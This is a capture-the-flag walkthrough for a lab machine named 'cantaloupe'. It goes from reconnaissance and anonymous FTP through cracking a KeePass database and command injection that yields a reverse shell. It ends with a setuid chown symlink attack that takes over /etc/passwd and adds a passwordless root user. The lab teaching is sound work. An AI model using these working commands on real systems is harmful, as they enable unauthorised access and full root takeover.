

# 🖥 Walkthrough | cantaloupe

## 1. Reconnaissance

An initial `nmap` scan reveals the following services:

```bash
# nmap -A -p- 192.168.60.5
[..]
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 f7:01:c3:61:c5:b5:fc:c9:02:d7:61:c1:24:a4:e7:fe (RSA)
|   256 f0:cd:8c:ec:94:b4:a4:0c:3e:8d:dd:54:8a:2d:ed:ff (ECDSA)
|_  256 bf:95:e2:74:4d:fa:1d:72:1a:f5:65:6e:a3:64:ac:4e (ED25519)
80/tcp    open  http    Apache httpd 2.4.53 ((Debian))
|_http-title: Cantaloupe Web Administration
|_http-server-header: Apache/2.4.53 (Debian)
50021/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.60.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jul 01 19:30 public
[..]
```

### Port 80: Apache web server

Opening the website in a browser leads to a login screen:


There seems to be no immediate way to bypass this login, so let's continue our reconnaissance.

### Port 50021: FTP server

According to the `nmap` results, the FTP server on port 50021 supports anonymous login. So let's see if we can log in and retrieve some files.

Using username `anonymous` and an empty password, we can access the FTP server:

```bash
# ftp 192.168.60.5 50021
Connected to 192.168.60.5.
220 Welcome to the Cantaloupe FTP service.
Name (192.168.60.5:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

We can now check out the directory structure by using a couple of `dir` and `cd` commands:

```bash
ftp> dir
229 Entering Extended Passive Mode (|||47532|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jul 01 19:59 public
226 Directory send OK.
ftp> cd public
250 Directory successfully changed.
ftp> dir
229 Entering Extended Passive Mode (|||42994|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp        412848 Jul 01 19:59 passwords.jpg
-rw-r--r--    1 ftp      ftp        204383 Jul 01 19:59 summer-feelings.jpg
-rw-r--r--    1 ftp      ftp          2110 Jul 01 19:59 web.kdbx
226 Directory send OK.
```

To fetch the three files, we can simply issue a `get` command for each of them:

```bash
ftp> get passwords.jpg
[..]
ftp> get summer-feelings.jpg
[..]
ftp> get web.kdbx
[..]
226 Transfer complete.
```

After terminating the FTP session, we can investigate the files locally on the Kali machine. The only interesting file appears to be `web.kdbx`, which is probably a password database:

```bash
# file web.kdbx         
web.kdbx: Keepass password database 2.x KDBX
```

## 2. Bruteforce attacks

Right now, there are a couple of attacks that should be considered:

1. continue enumeration (e.g. directory busting)

2. try different web login credentials

3. crack the master password of the password database

4. check for vulnerable software versions

5. ...

We will stick with option 3 and crack the password of the KeePass database to keep this walkthrough as straightforward as possible.

To obtain the password, we use the password cracking tool `john`. First, we need to convert our password hash to a format that can be parsed by `john`:

```bash
# keepass2john web.kdbx > web.hash
```

Now, we can start our attack by providing the hash file and a word list. After a short time, we can see that the password of the KeePass file is `london`:

```bash
# john --wordlist=/usr/share/wordlists/rockyou.txt web.hash 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 5050504 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
london           (web)     
1g 0:00:01:18 DONE (2022-07-01 16:15) 0.01274g/s 6.115p/s 6.115c/s 6.115C/s 123456a..marie
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

> Note: You will need to unzip the `rockyou.txt` word list if you use it for the first time.

Opening the password database in KeePassX provides us with the password for the web interface:


## 3. Remote Code Execution

Logging into the website with the acquired credentials leads to the following command interface:


Apparently, the user is allowed to perform administrative tasks such as starting and stopping services.

Investigations of the HTML source code show that each option corresponds to a Linux command that is executed:

```html
<select name="command" class="form-select">
    <option value="" selected>Select a command...</option>
    <option value="/opt/control-panel ftp-start">Start FTP server</option>
    <option value="/opt/control-panel ftp-stop">Stop FTP server</option>
    <option value="/opt/control-panel web-restart">Restart web server</option>
    <option value="/opt/control-panel reboot">Full system reboot (CAUTION!)</option>
</select>
```

So let's try if we can execute arbitrary commands and establish a reverse shell:

1. Start the listener on your Kali machine: `nc -lnvp 4242`

2. Replace one of the `value` attributes in your browser's dev tools:
   
   

3. Click "Run command" to submit the form and execute the command.

4. Upgrade the reverse shell via `python3 -c "import pty; pty.spawn('/bin/bash')"`.

```bash
$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [192.168.60.2] from (UNKNOWN) [192.168.60.5] 50884
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@cantaloupe:/var/www/html$
```

Looks like we've got a perfectly working reverse shell! Now it's time to retrieve the first token:

```bash
www-data@cantaloupe:/var/www/html$ cat /home/cantaloupe/token
Wait... is this a... TOKEN?! CANTALOUPE{n3ver_ev3r_tru5t_us3r_1nput}
```

## 4. Privilege Escalation

To find a way to escalate privileges to root, we should have a look at `/opt/control-panel`. This is the file which was used by the web interface.

Apparently, this executable has the `SETUID` bit set, so it will run as root. Furthermore, its source code is available:

```bash
www-data@cantaloupe:/opt$ ls -l
total 24
-rwsr-xr-x  1 root root 16664 Jul  1 19:59 control-panel
-rw-r--r--  1 root root  1183 Jul  1 19:59 control-panel.c
```

So let's investigate the code in `control-panel.c`:

```c
#include <string.h>
#include <unistd.h>

// CONTROL PANEL
// This application can be used to start/stop/restart a limited number of services.

int main(int argc, char* argv[]) {

    // Check for valid number of parameters
    if (argc != 2) {
        return 1;
    }

    // Check which command to execute

    if(strcmp("ftp-start", argv[1]) == 0) {
        // Start FTP server
        execl("/usr/bin/systemctl", "/usr/bin/systemctl", "start", "vsftpd", NULL);
    }
    else if(strcmp("ftp-stop", argv[1]) == 0) {
        // Stop FTP server
        execl("/usr/bin/systemctl", "/usr/bin/systemctl", "stop", "vsftpd", NULL);
    }
    else if(strcmp("web-restart", argv[1]) == 0) {
        // Make sure that all web pages can be served by Apache
        execl("/usr/bin/chown", "/usr/bin/chown", "-RH", "www-data:", "/var/www/html", NULL);
        // Restart web server
        execl("/usr/bin/systemctl", "/usr/bin/systemctl", "restart", "apache2", NULL);
    }
    else if(strcmp("reboot", argv[1]) == 0) {
        // Reboot system
        execl("/usr/sbin/reboot", "/usr/sbin/reboot", NULL);
    }
    else {
        // Unknown command
        return 1;
    }

    return 0;
}
```

This program is a simple wrapper that just calls other executables. But there is one very interesting line:

```c
execl("/usr/bin/chown", "/usr/bin/chown", "-RH", "www-data:", "/var/www/html", NULL);
```

Before the web server is restarted, this line makes sure that each file in `/var/www/html` is owned by `www-data`. The flags `-RH` instruct `chown` to operate recursively on directories and follow symbolic links. This is very dangerous because we can perform a **symlink attack**. This allows us to get ownership of arbitrary files on the system!

The attack works the following way:

1. Create a symbolic link in `/var/www/html` that points to a restricted file, e.g. `/etc/passwd`:
   
   ```bash
   ln -s /etc/passwd /var/www/html/passwd
   ```

2. Run the command to "restart the web server". This will call  the`chown` command from above, follow the symbolic link and change the owner of `/etc/passwd` to `www-data`.
   
   ```bash
   /opt/control-panel web-restart
   ```

Now we are the owner of the `/etc/passwd` file:

```bash
www-data@cantaloupe:/opt$ ls -al /etc/passwd
-rw-r--r-- 1 www-data www-data 1562 Jul  1 19:59 /etc/passwd
```

As a final step, we can add a new root user to get superuser privileges and retrieve the second token:

```bash
www-data@cantaloupe:/opt$ echo 'toor::0:0:root:/root:/bin/bash' >> /etc/passwd
www-data@cantaloupe:/opt$ su toor
root@cantaloupe:/opt# id
uid=0(root) gid=0(root) groups=0(root)
root@cantaloupe:/opt# cat /root/token
Well done, my friend: CANTALOUPE{f0llow1ng_syml1nk5_c4n_b3_d4ng3r0us}
```

> **Remark:** Despite technically logging in as user `toor`, we are effectively `root` since both users have the same user id of 0.
